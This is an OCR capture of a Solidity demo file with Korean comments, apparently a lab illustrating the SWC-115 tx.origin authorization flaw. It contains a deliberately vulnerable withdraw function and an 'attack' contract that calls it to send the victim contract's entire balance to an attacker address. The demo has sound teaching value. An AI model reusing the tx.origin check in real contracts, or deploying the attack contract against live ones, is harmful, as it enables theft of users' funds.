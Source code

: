 ```jsx
    }

    //swc115 컨트랙트에 이더 값을 전송하는 부분
    function a() public payable {
        emit ether_storage(msg.value, msg.sender);
    }

    //tx.origin이 있어 취약한 함수, require를 우회하여 값을 출금해갈 수 있음
    function withdrawAll_txorigin(address _recipient) public {
        //require(tx.origin == owner);
        require(tx.origin == owner,
        "msg.sender = owner not same");
        emit with_ether(tx.origin, msg.sender, owner);
        _recipient.transfer(this.balance);
    }
    
    //해당 함수는, tx.origin와 msg.sender를 비교하기 위해 추가한 함수
    //여기선 msg.sender를 사용
    function withdrawAll_sender(address _recipient) public {
        //require(tx.origin == owner);
        require(msg.sender == owner,
        "msg.sender = owner not same, function call only owner! owner addr : 0x50a3c7460b3bd111b4330ac90f8410c7085298b7");
        emit with_ether(tx.origin, msg.sender, owner);
        _recipient.transfer(this.balance);
    }
}

contract attack{
    swc115 swc115contract;
    address attacker;

    //swc115contract = 공격당하는 컨트랙트의 주소, attackaddress는 값을 받을 EOA 주소
    function set(swc115 _swc115contract, address _attackaddress){
        swc115contract = _swc115contract;
        attacker = _attackaddress;
    }
    //tx.origin==owner가 설정된 함수를 호출
    function attack_contract() payable{
        swc115contract.withdrawAll_txorigin(attacker);
    }

    //msg.sender==owner가 설정된 함수를 호출
    function attack_contract2() payable{
        swc115contract.withdrawAll_sender(attacker);
    }
}
```

- tx_test.sol
